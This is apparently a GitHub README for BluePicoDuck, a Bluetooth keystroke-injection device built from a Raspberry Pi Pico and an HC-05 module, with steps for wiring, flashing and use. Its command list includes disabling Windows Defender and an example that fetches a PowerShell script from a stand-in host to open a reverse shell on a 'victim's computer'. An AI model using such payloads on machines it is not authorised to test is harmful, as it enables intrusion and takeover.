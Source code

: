 # BluePicoDuck
Hi there, Its is a open-source pico ducky with bluetooth Version. It's gone be a community so if you have a idea or any changes do it and send to me or upload your self and post it in issue section.
<br>
<br>
<br>
<a href="professorp200@gmail.com"><img src="https://img.shields.io/badge/Gmail-D14836?style=for-the-badge&logo=gmail&logoColor=white"></a><br>
<a href="https://t.me/IAMTHEprofessor"><img src="https://img.shields.io/badge/Telegram-2CA5E0?style=for-the-badge&logo=telegram&logoColor=white"></a><br>
<h1>Discord id: professor#3976</h1>
<br>
## Disclaimer

**This is a tool.**  
**It's neither good nor bad.**  
**Use it to do good, to study, and to test.**  
**Never use it to do harm or create damage!**  

**The continuation of this project counts on you!** 

## About

This is a device which emulate keyboard and keyboard strokes. Because windows and other operating system consider these rubber duckys as keyboard and not storage device.
So, in that case windows trust rubber duck and keyboard. No privilage were added to rubber rucky. But speed matter's. Because a human can type in normal speed but rubber ducky will type 5x time faster than human. So time matter's.

We can do by using ducky scripts created by hack5. They are the founder of rubber ducky. and special thanks to them to be a inspiration for creating this project.
Let's Start to create your own BluePicoDuck.

## Hardware

This tool requires following hardware:  
* Raspberry Pi pico.
* Hc-05

That's it now let's go to step up raspbery pico and solder or make wiring in it.

## FLASHING

Install adafruit circuit python in raspberry pi pico:
<br>
<a href="https://adafruit-circuit-python.s3.amazonaws.com/bin/raspberry_pi_pico/en_GB/adafruit-circuitpython-raspberry_pi_pico-en_GB-6.3.0.uf2"><img src="https://img.shields.io/badge/Amazon_AWS-232F3E?style=for-the-badge&logo=amazon-aws&logoColor=whit"></a>

 ## Tutorial for installing circuit python in Raspberry Pi Pico.
 
 * First insert raspberry pi pico by pressing the white buton on the top.
 * Now, copy and paste the circuitpython file we downloaded .utf2 into raspberry pi pico.
 * Now it automatically disconnects and connect as partition circuit python.

Thats it we installed Circuit Python in Raspberry pi pico. We can to next Step

## Wiring Part

PCB Layout:
<br>
<img src="https://github.com/Pr0fe5s0r/BluePicoDuck/blob/main/images/7.png">

This is the Schematic of HC-05 and raspberry pi pico.

## Connection:
* HC05 --------- RASPBERRY PI PICO
* VCC  --------- 5V(VBUS)
* GND  --------- GND
* RXD  --------- GPO1
* TXD  --------- GP02

## Images for Under Standing:

1)<img src="https://github.com/Pr0fe5s0r/BluePicoDuck/blob/main/images/1.jpeg">
<br>
2)<img src="https://github.com/Pr0fe5s0r/BluePicoDuck/blob/main/images/2.jpeg">
<br>
3)<img src="https://github.com/Pr0fe5s0r/BluePicoDuck/blob/main/images/3.jpeg">
<br>
4)<img src="https://github.com/Pr0fe5s0r/BluePicoDuck/blob/main/images/4.jpeg">
<br>
5)<img src="https://github.com/Pr0fe5s0r/BluePicoDuck/blob/main/images/5.jpeg">
<br>
6)<img src="https://github.com/Pr0fe5s0r/BluePicoDuck/blob/main/images/6.jpeg">

## Coding Part:

There's a zip file called <h4><a href="https://github.com/Pr0fe5s0r/BluePicoDuck/blob/main/BluCode.zip">BlueCode</a></h4>

Extract it in a folder and copy them and paste it in Raspberry pi pico.

Thats it we are now ready to Go nxt!!

## Android App:

There zip file called <h4><a href="https://github.com/Pr0fe5s0r/BluePicoDuck/blob/main/app.zip">app</a></h4>

extract it and build with android studio. I will add tutorial videos at end for building android project.

* Build it and install it into android phone. ## (IF ANY ERROR OCCURS PLEASE ADD IT IN ISSUE TAB)
* Now open the and check it's all ok.

## Thats it. Final!!!!!!

Now Set uped everything lets test i programmed it based on passing arguments in it. 

Command's:

* (arg) D - wallpaper change
* D - rubber ducky wallpaper change
* A - Rick and roll
* W - windows Defender
* B - Shut Down the computer

* (arg) O - Open Notepad
* (arg) C - Type command on same line
* (arg) E C - Type command in new line

* (arg) R - Reverse shell with link. 

There are some buttons will show when you are conected to the device.

In the top button there is a text boxt with button send command. In that we pass arguments and values for example

* Hello bro O -------- Create a note pad and type Hello Bro
* Hello Bro E C -------- Create new line and type hello bro
* hello C ----------- simply type hello bro
* http://reverse-shell.com/reverseshell.ps1 R ------------- Create reverse shell in victim's computer.
* http://wallpaper.com/wallpaper.jpg D ------------ change wallpaper

Like that we can create our own payload in python in efficient way.

In future releases i will make it more simple. 

# Your are intrested lets Make it together. #

## Link's:

* https://www.youtube.com/watch?v=p0ItPcqqXog

#SOON TUTORIAL VIDEO FOR THIS WILL BE RELEASED IN YOUTUBE#

